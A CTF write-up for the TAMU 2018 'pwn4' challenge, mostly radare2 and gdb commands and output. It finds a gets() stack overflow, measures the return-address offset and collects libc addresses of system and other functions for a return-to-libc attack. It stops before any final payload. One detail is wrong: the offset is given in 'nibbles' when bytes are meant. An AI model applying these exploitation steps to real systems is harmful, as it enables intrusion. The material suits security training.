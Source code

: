 # write-up pwn4 (? p)

remote server found at `nc pwn.ctf.tamu.edu 4324`

----

Disassemble using `r2 -e dbg.profile=profile.rr2`, with

````bash
(ctftools)vagrant@ctf-tools:~/ctf/tamu18/pwn4$ cat profile.rr2 
#!/usr/bin/rarun2

program=./pwn4
stdin=./stdin
````

The binary use NX security mechanism

````python
[0x08048490]> i~arch,canary,nx,pic,relro
arch     x86
canary   false
nx       true
pic      false
relro    partial
````

Function `sym.main ()` has a function call to `sym.reduced_shell ()`

````python
[0x080485ef]> pdf
            ;-- eip:
┌ (fcn) sym.reduced_shell 404
│   sym.reduced_shell ();
│           ; var int INPUT @ ebp-0x1c
│           ; CALL XREF from 0x080487a8 (main + 37)
...
│           0x08048632      83c410         esp += 0x10
│           0x08048635      83ec0c         esp -= 0xc
│           0x08048638      8d45e4         eax = [INPUT]
│           0x0804863b      50             push eax                    ; char *s
│           0x0804863c      e8cffdffff     sym.imp.gets ()             ; char*gets(char *s)
````

Function `sym.reduced_shell ()` contains a `sym.imp.gets ()` call, with `local_1ch` variable, renamed to `INPUT`

````python
[0x080485ef]> afvd
var local_1ch = 0xffe4111c  0x080487a5  .... (LOAD0) (/home/vagrant/ctf/tamu18/pwn4/pwn4) main program R X 'add esp, 0x10' 'pwn4'
````

````python
[0x080485ef]> afvn local_1ch INPUT
````

Created a pattern using `ragg2 -P 300 -r > stdin` and reopen debugger.

````python
[0xf77b7030]> dc
I am a reduced online shell
Your options are:
1. ls
2. cal
3. pwd
4. whoami
5. exit
Input> Unkown Command

child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41414c41 code=1 ret=0
````

````python
[0x41414c41]> wopO 0x41414c41
32
````

The offset to the return address is 32 nibbles.

````python
[0x08048641]> dmi
0x08048000 /home/vagrant/ctf/tamu18/pwn4/pwn4
0xf754b000 /lib/i386-linux-gnu/libc-2.19.so
````

````bash
(ctftools)vagrant@ctf-tools:~/ctf/tamu18/pwn4$ gdb -q /lib/i386-linux-gnu/libc.so.6
Reading symbols from /lib/i386-linux-gnu/libc.so.6...(no debugging symbols found)...done.
(gdb) p system
$1 = {<text variable, no debug info>} 0x40310 <system>
(gdb) p putchar
$2 = {<text variable, no debug info>} 0x66610 <putchar>
(gdb) p read
$3 = {<text variable, no debug info>} 0xdd3e0 <read>
````

